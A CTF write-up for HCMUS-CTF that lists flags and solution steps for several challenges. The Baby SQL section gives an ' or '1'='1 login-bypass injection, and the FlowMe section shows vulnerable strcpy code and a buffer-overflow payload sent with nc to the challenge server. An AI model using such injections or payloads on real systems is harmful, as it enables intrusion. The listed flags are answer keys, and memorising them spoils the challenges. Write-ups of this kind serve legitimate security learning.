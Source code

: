 # HCMUS-CTF
## Discord
- Go to https://discord.com/channels/714108446370299925/717326910908137482 the you see:
- Flag for discord: HCMUS-CTF{089 111 085 095 107 110 060 062 119 095 100 105 115 099 111 114 068 095 064 110 100 095 085 095 075 110 048 119 095 065 083 067 073 073}
- This ascii of characters. Decode:
- Flag is: HCMUS-CTF{YoU_kn<>w_discorD_@nd_U_Kn0w_ASCII}
## Baby SQL
- Challenges at: http://159.65.13.76:1339/ 
- This is basic SQL injection. Username: admin. Pass:'or '1'='1.
- The flag is: HCMUS-CTF{Sh0uld_N0tz_Conc4ten4te_S+r1ng_SQQLLL}
## TellMe
- Open file tellme.c
- You will see this code:
<pre><code>
	if(userid == 0x3211 && !strcmp("sUpErPassHCMUS\n", passwd)){
		printf("Wellcome back! Aministrator ^_^\n");
		fflush(stdout);
		fflush(stdin);
		system("/bin/cat flag");
		exit(0);	
	}
</code></pre>
- UserID: 12817
- Password: sUpErPassHCMUS
- Flag is: HCMUS-CTF{Ohhh~Just_give_me_the_credential!!Nah}
## StackString
- Decompiler stackstring with Ghidra Tool:
- In function main you will see:
- ![alt text](https://github.com/1712249/HCMUS-CTF/blob/master/stackstring.png)
- Hexdecode you get:
- local_50:}3
- local_70:_Kc4tS{F
- local_68:G_gn1rtS
- local_58:uq1nhcet
- local_78:TC-SUMCH
- local_60:_dlo_D00
- Flag is: HCMUS-CTF{St4cK_Str1ng_G00D_old_techn1qu3}
## Patient
- Auto Click 500 times.
- Flag is: HCMUS-CTF{WOW_yOu_are_p4tient}.
## PatientRevenge
- Auto Click 100000 times.
- Flag is: HCMUS-CTF{I_hope_you_dont_click_by_hand}
## FlowMe
- Openfile flowme.c.
- You will see this code: 
<pre><code>
int secret_func(){
    system("/bin/cat flag.txt");
    return 0;
}

int authentication(char *password) {
    char password_buffer[256];
    strcpy(password_buffer, password);
    if(strcmp(password_buffer, "this_is_a_password") == 0)
        return 1;
    
    return 0;
}
</code></pre>
- I guess buffer overflow from function strcpy at authenticaiton to function secret_func.
- Use GDB and [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) this function is overflow at 256 and Adress secret_func is: 0x00000000004007ea 
- This is payload: 
<pre><code>
	echo $(python -c 'print "A" * 264 +"\xea\x07\x40\x00\x00\x00\x00\x00"') | nc 159.65.13.76 33103
</code></pre>
